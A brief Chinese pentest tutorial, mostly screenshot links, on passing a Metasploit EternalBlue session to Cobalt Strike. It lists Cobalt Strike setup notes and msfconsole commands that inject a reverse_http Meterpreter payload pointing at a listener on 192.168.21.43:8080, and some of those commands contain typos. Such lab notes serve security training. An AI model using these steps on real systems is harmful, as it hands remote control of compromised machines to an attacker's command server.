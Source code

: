 #### **msf调用永恒之蓝攻击模块将会话转移到cs中**

---



![image-20210827111457310](会话转移/image-20210827111457310.png)

![image-20210827111547972](会话转移/image-20210827111547972.png)

![image-20210827111721827](会话转移/image-20210827111721827.png)

![image-20210827111846007](会话转移/image-20210827111846007.png)

![image-20210827112426841](会话转移/image-20210827112426841.png)

![image-20210827112449014](会话转移/image-20210827112449014.png)

![image-20210827112809967](会话转移/image-20210827112809967.png)

![image-20210827112935235](会话转移/image-20210827112935235.png)

![image-20210827113338132](会话转移/image-20210827113338132.png)

![image-20210827113359985](会话转移/image-20210827113359985.png)

![image-20210827113620880](会话转移/image-20210827113620880.png)

![image-20210827113857288](会话转移/image-20210827113857288.png)





### **Cobalt Strike**

cs可以在Ubuntu，centos，Windows2008,2012,2019，win7，win10，win11，都可以运行

只要可以执行 java -version 成功

centos安装  yum instal openjdk@13 unzip

cs4.2 最好使用jdk11以上

![](会话转移/image-20210827140254423.png)

![image-20210827140409050](会话转移/image-20210827140409050.png)

![image-20210827160438311](会话转移/image-20210827160438311.png)

**1，bg 会话**

**2.调用payload_inject 模块**

use exploit/windows/local/payload_inject

**3.在该模块上配置与cobalt strike上为同样类型的payload**

set payload windows/meterpreter/reverse_http**（cs程序只支持http和https协议）**

**4.设置 DisablePayloadHandler 为 True，此选项会让 Metasploit Framework 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉 Metasploit Framework 说我们已经建立了监听器，不必再新建监听器了。**

set disablepayloadhandler true

**5.设置 lhost 和 lport 为 Cobalt Strike 的监听 IP 与端口**

set lhosts 192.168.21.43

set lport 8080

![image-20210827160524003](会话转移/image-20210827160524003.png)

**6，运行run**

![image-20210827162931510](会话转移/image-20210827162931510.png)

![image-20210827163040114](会话转移/image-20210827163040114.png)

![image-20210827163212188](会话转移/image-20210827163212188.png)

![image-20210827173045062](会话转移/image-20210827173045062.png)

![image-20210827174242671](会话转移/image-20210827174242671.png)

